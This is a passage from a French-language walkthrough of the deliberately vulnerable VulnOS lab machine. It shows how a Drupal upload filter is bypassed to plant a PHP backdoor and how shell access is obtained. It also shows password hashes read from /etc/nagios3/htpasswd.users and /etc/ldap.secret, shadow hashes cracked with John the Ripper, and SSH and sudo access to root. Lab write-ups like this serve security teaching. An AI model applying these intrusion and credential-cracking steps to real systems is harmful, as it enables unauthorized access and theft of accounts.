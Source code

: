 Dans la base de données pour le drupal6 je trouve un user drupal6 avec le hash `ab57944b510148c7299a13f6cb31ef6e`. Une recherche Google nous donne le password correspondant : `drupal6` :p  

J'édite un des posts existant pour ajouter ma backdoor PHP en attachement, mais celle-ci est renommée en .php.txt :(  

Dans `Administer > Site configuration > Files uploads` j'ai pu ajouter le type phtml puis finalement uploader la backdoor (drupal l'a placée dans */drupal6/sites/default/files/*).  

Netcat est installé sur le système, mais ne dispose pas de l'option -e pour y attacher un shell.  

Sur le blog Pentest du SANS j'ai trouvé [un article qui permet de résoudre ce problème via l'utilisation de mknod](http://pen-testing.sans.org/blog/pen-testing/2013/05/06/netcat-without-e-no-problem).  

Un upload de `tshd` plus tard...  

```console
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux VulnOS 2.6.32-57-generic-pae #119-Ubuntu SMP Wed Feb 19 01:20:04 UTC 2014 i686 GNU/Linux
```

C'est bien joli, mais ça ne nous donne pas un accès root. Le kernel 2.6.32 semble résister aux différents exploits que j'ai pu tester et les services qui tournent en root ne semblent pas plus vulnérables :(  

J'ai donc continué à fouiller dans les fichiers via la faille webmin ou mon accès shell. Finalement j'ai repéré un pattern dans les mots de passe d'abord avec le password Nagios que j'ai pu casser :  

```console
$ cat /etc/nagios3/htpasswd.users
nagiosadmin:8A86JOBWoCwnk

$ /opt/jtr/john nagios
Loaded 1 password hash (Traditional DES [128/128 BS AVX-16])
canuhack         (nagiosadmin)
guesses: 1  time: 0:05:03:52 DONE (Thu May 29 03:59:22 2014)  c/s: 4605K  trying: canup1or - canuhaci
```

Puis via le contenu du fichier */etc/ldap.secret* : canuhackme  

J'ai créé une wordlist en me basant sur les noms d'utilisateurs récupérés + les mots de passe + des versions préfixées de canu et j'ai lancé JtR sur le fichier shadow :  

```console
$ /opt/jtr/john --wordlist=passwords.txt --rules shadow
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Loaded 1 password hash (sha512crypt [64/64])
canuhackme       (vulnosadmin)
guesses: 1  time: 0:00:00:00 DONE (Thu May 29 09:13:23 2014)  c/s: 175  trying: canuhackme
```

On peut se connecter à SSH via cet account puis passer root via sudo car il est privilégié :  

```console
$ ssh vulnosadmin@192.168.1.29
vulnosadmin@192.168.1.29's password: 
Linux VulnOS 2.6.32-57-generic-pae #119-Ubuntu SMP Wed Feb 19 01:20:04 UTC 2014 i686 GNU/Linux
Ubuntu 10.04.4 LTS
(...snip...)
vulnosadmin@VulnOS:~$ id
uid=1000(vulnosadmin) gid=1000(vulnosadmin) groepen=4(adm),20(dialout),24(cdrom),
46(plugdev),109(lpadmin),110(sambashare),111(admin),1000(vulnosadmin)
vulnosadmin@VulnOS:~$ sudo -l
[sudo] password for vulnosadmin: 
Matching Defaults entries for vulnosadmin on this host:
    env_reset
```
